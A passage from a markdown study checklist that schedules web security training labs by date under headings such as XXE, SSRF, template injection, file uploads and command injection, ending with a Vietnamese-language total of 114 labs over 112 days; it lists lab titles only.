- [ ] **2/7** — URL-based access control can be circumvented
- [ ] **3/7** — Authentication bypass via information disclosure

---

## GRAPHQL API

- [ ] **4/7** — Finding a hidden GraphQL endpoint
- [ ] **5/7** — Accidental exposure of private GraphQL fields
- [ ] **6/7** — Bypassing GraphQL brute force protections

---

## CORS

- [ ] **7/7** — CORS vulnerability with trusted insecure protocols
- [ ] **8/7** — CORS vulnerability with trusted null origin

---

## XXE INJECTIONS

- [ ] **9/7** — Exploiting XInclude to retrieve files
- [ ] **10/7** — Exploiting blind XXE to exfiltrate data using a malicious external DTD
- [ ] **11/7** — Exploiting blind XXE to retrieve data via error messages
- [ ] **12/7** — SQL injection with filter bypass via XML encoding (XXE + SQLi + HackVertor)
- [ ] **13/7** — Exploiting XXE to perform SSRF attacks
- [ ] **14/7** — Exploiting XXE via image file upload

---

## SSRF

- [ ] **15/7** — SSRF with blacklist-based input filter
- [ ] **16/7** — SSRF via flawed request parsing
- [ ] **17/7** — SSRF via OpenID dynamic client registration
- [ ] **18/7** — Routing-based SSRF
- [ ] **19/7** — SSRF with filter bypass via open redirection vulnerability

---

## SSTI

- [ ] **20/7** — Basic server-side template injection (code context) — Tornado
- [ ] **21/7** — Server-side template injection with information disclosure via user-supplied objects — Django
- [ ] **22/7** — Server-side template injection using documentation — Freemarker
- [ ] **23/7** — Basic server-side template injection — ERB
- [ ] **24/7** — Server-side template injection in an unknown language — Handlebars

---

## SSPP

- [ ] **25/7** — Remote code execution via server-side prototype pollution

---

## FILE PATH TRAVERSAL

- [ ] **26/7** — File path traversal, traversal sequences blocked with absolute path bypass
- [ ] **27/7** — File path traversal, traversal sequences stripped non-recursively
- [ ] **28/7** — File path traversal, traversal sequences stripped with superfluous URL-decode
- [ ] **29/7** — File path traversal, validation of start of path
- [ ] **30/7** — File path traversal, validation of file extension with null byte bypass

---

## FILE UPLOADS

- [ ] **31/7** — Web shell upload via path traversal
- [ ] **1/8** — Web shell upload via obfuscated file extension
- [ ] **2/8** — Remote code execution via polyglot web shell upload
- [ ] **3/8** — Web shell upload via extension blacklist bypass
- [ ] **4/8** — Web shell upload via Content-Type restriction bypass
- [ ] **5/8** — Web shell upload via race condition

---

## DESERIALIZATION

- [ ] **6/8** — Arbitrary object injection in PHP
- [ ] **7/8** — Exploiting Java deserialization with Apache Commons
- [ ] **8/8** — Exploiting PHP deserialization with a pre-built gadget chain

---

## OS COMMAND INJECTION

- [ ] **9/8** — Blind OS command injection with out-of-band data exfiltration
- [ ] **10/8** — Blind OS command injection with output redirection

---

> **Tổng: 114 labs | 20/4 → 10/8 (112 ngày)**